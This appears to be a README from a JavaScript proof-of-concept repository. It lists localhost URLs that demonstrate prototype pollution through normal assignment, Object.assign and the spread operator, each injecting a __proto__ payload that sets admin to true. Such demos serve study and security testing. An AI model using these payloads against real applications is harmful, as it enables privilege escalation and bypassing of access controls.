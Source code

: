# Javascript code

### All the POCs and garbage code goes here.

* **Prototype Pollution** - `routes/prototypepollution`

    Normal assignment - `http://localhost:3000/proto?attr=__proto__&value={"admin":"true"}`

    Object.assign - `http://localhost:3000/proto/2?value={"__proto__":{"admin":"true"}}`

    Spread operator - `http://localhost:3000/proto/3?value={"__proto__":{"admin":"true"}}`